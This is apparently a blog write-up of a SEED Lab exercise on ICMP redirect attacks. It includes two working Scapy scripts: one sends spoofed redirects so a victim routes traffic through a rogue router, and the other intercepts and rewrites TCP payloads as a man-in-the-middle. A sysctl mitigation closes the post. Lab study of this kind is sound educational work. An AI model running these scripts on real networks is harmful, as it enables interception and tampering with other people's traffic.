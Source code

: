 ```yaml
---
layout: post
title: ICMP Redirect Attack
categories: [icmp, scapy]
---
```


An ICMP redirect is an error message sent by a router to the sender of an IP packet. The purpose of this error message is to inform the sender of the IP packet that there is a better route it can use to reach its destination. While this is a neat feature, attackers can take advantage of this feature to redirect a machine's network traffic to a rouge router and sniff such traffic.

Redirects are used when a router believes a packet is being routed incorrectly, and it would like to inform the sender that it should use a different router for the subsequent packets sent to that same destination. ICMP redirect can be used by attackers to change a victim’s routing table.

```
malicious router 10.9.0.111
attacker 10.9.0.105
victim 10.9.0.5
host-A 192.168.60.5
host-B 192.168.60.6
router 10.9.0.11, 192.168.60.11
```

In this post, I aim to document my findings and observations while performing a SEED Lab.

<br>

### Launching ICMP Redirect Attack
An ICMP redirect attack unlike the ARP cache poisoning directly attacks the routing table of the victim's machine. Though this attack does not change the routing table of the victim's machine, by informing the machine of a better route, the victim's machine creates a timed cache of the "supposed" better route.
This can be done through the code:

```python
#!/usr/bin/python3
import sys, os, time
from scapy.all import *

def main():
    # ensure correct usage
    if len(sys.argv) != 5:
        usage()
        sys.exit(2)
    
    # unpack
    router = sys.argv[1]
    victim = sys.argv[2]
    rouge_r = sys.argv[3]
    destination = sys.argv[4]
    
    # create packets
    ip = IP(src = router, dst = victim)
    icmp = ICMP(type = 5, code = 1, gw = rouge_r)
    ip2 = IP(src = victim, dst = destination)
    
    # send the packet
    try:
        while True:
            send(ip / icmp / ip2 / ICMP());
            time.sleep(1.5)
    except KeyboardInterrupt:
        sys.exit("Keyboard escaped")
        #os.system('clear')

def usage():
    print('Usage: ./icmp_redirect.py <router> <victim> <rouge-r> <destination>\
    \n\trouter: IP address of the actual router\
    \n\tvictim: IP address of the victim\
    \n\trouge-r: IP address of the rouge router\
    \n\tdestination: IP address of the host outside victim network\n')


if __name__ == '__main__':
    main()
```

It is important to note that if an entry exists in the routing cache, it trumps a similar entry in the actual routing table.

***Before running the ICMP redirect attack***

![1 1-route-before-redirect](https://github.com/iukadike/iukadike.github.io/assets/58455326/c1240143-9efb-4cd4-b46d-4cf6f9e64270)

![1 1-mtr-before-redirect](https://github.com/iukadike/iukadike.github.io/assets/58455326/43e5c114-5926-409e-8518-a089a7b18b01)

***After running the ICMP redirect attack***

![1 2-route-after-redirect](https://github.com/iukadike/iukadike.github.io/assets/58455326/aedb2bd0-17cb-494c-bb94-475f66160d4f)

![1 2-mtr-after-redirect](https://github.com/iukadike/iukadike.github.io/assets/58455326/fa886763-80e6-4dfe-880b-12463038a4a8)

The packet first goes to the rouge router. Once the malicious router receives the packet, it forwards it to the router; and thus is the return trip. This is because the malicious router has an entry for the router in its routing table as seen below

![1 2-rouge-router-table](https://github.com/iukadike/iukadike.github.io/assets/58455326/bf20a9e5-92c5-418c-bf26-d2c0900f0d95)

![rouge-router-table](https://github.com/iukadike/iukadike.github.io/assets/58455326/8306d3ac-d458-4689-83a4-34f777d80338)

When a ping request is sent from the victim to `host-A`, two ping requests and one ping reply make up the traffic. This can be seen in Wireshark when monitoring the victim's network
- first ICMP request is from the victim to the malicious router
- second ICMP request is from the malicious router to the router
- only ICMP reply is from router to the victim

![1 4-wireshark-2](https://github.com/iukadike/iukadike.github.io/assets/58455326/763f8f46-9ebc-4511-aff1-f886590a6bc9)

<br>

### ICMP redirect attacks to redirect to a remote machine
When the gateway you want the victim to redirect traffic to is outside of the victim's network, the victim would ignore the gateway address but rather use the router address. When it does this, it adds the router to its routing cache; however, this entry is not a timed entry. This means the entry doesn't expire and can only be updated by a better route or flushed. This can be seen in the screenshots below

![1 3-route-remote](https://github.com/iukadike/iukadike.github.io/assets/58455326/485ae1cd-018d-470f-baa4-d014d5377768)

![1 3-mtr-remote](https://github.com/iukadike/iukadike.github.io/assets/58455326/ccf92b97-243a-4a28-8b83-951876f70e30)

<br>

### ICMP redirect attacks to redirect to a non-existing machine on the same network
When the gateway you want the victim to redirect traffic to is on the same network as the victim but either offline or non-existent, the victim would ignore the gateway address but rather use the router address. As with the remote host, When it does this, it adds the router to its routing cache; however, this entry is not a timed entry. This means the entry doesn't expire and can only be updated by a better route or flushed. This can be seen in the screenshots below

![1 3-route-remote](https://github.com/iukadike/iukadike.github.io/assets/58455326/485ae1cd-018d-470f-baa4-d014d5377768)

![1 3-mtr-remote](https://github.com/iukadike/iukadike.github.io/assets/58455326/ccf92b97-243a-4a28-8b83-951876f70e30)

<br>

##### side note
```
net.ipv4.conf.all.send_redirects
net.ipv4.conf.default.send_redirects
net.ipv4.conf.eth0.send_redirects
```

When these are set to 1, the malicious router forwards a message to the victim to indicate the next hop. In essence, what this does is that it informs the victim that there is a better route to get to `host-A`. The victim takes note of this and updates its routing cache accordingly.

![1 4-next-hop](https://github.com/iukadike/iukadike.github.io/assets/58455326/16991222-149c-425b-97de-9f210c4ed8d6)

However, when these are set to 0, the malicious router does not forward a message to the victim to indicate the next hop. This is the option we want.

![1 4-next-hop-2](https://github.com/iukadike/iukadike.github.io/assets/58455326/5d80c98a-17ba-45ea-9b1b-7b0d56827f6c)

<br>

### Launching the MITM Attack
You only need to capture traffic that comes to the rouge router. When the destination is sending traffic to the victim, it will do so via the real router. It is only when the traffic originates from the victim that it goes to the rouge router. This is true because the attacking machine uses the router to send the spoof traffic.

A simple MITM Attack can be launched using the below code

```python
#!/usr/bin/env python3
import re
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
    newpkt = IP(bytes(pkt[IP]))
    del(newpkt.chksum)
    del(newpkt[TCP].payload)
    del(newpkt[TCP].chksum)

    if pkt[TCP].payload:
        # Decode payload
        data = pkt[TCP].payload.load.decode().lower()

        # Replace the pattern
        newdata = re.sub('ifeanyi', 'AAAAAAA', data, 1)
        
        # Send the packet wit the new data
        print(f'sending {newdata}')
        send(newpkt/newdata, verbose = 0)
    else: 
        send(newpkt, verbose = 0)

f = '(tcp port 9090) && (not ether src 02:42:22:32:2c:98)'
sniff(iface='br-5b598e26fa5c', filter=f, prn=spoof_pkt)
```

This can be better understood by the screenshots below

***MITM program***

![1 5-mitm-code](https://github.com/iukadike/iukadike.github.io/assets/58455326/cf16ec2f-851e-447f-aac3-96a950702318)

***Server `host-A`***

![1 5-mitm-server](https://github.com/iukadike/iukadike.github.io/assets/58455326/a6c480b7-82d0-45b6-b67c-4455172478d7)

***Victim***

![1 5-mitm-victim](https://github.com/iukadike/iukadike.github.io/assets/58455326/256c0985-43e5-43d4-85a3-6aa8c7352139)

___
##### mitigation
By setting the following to 0, you can effectively prevent your machine from accepting `ICMP redirects`
```
net.ipv4.conf.all.accept_redirects
net.ipv4.conf.default.accept_redirects
net.ipv4.conf.eth0.accept_redirects
````

<br>

_Thanks for reading_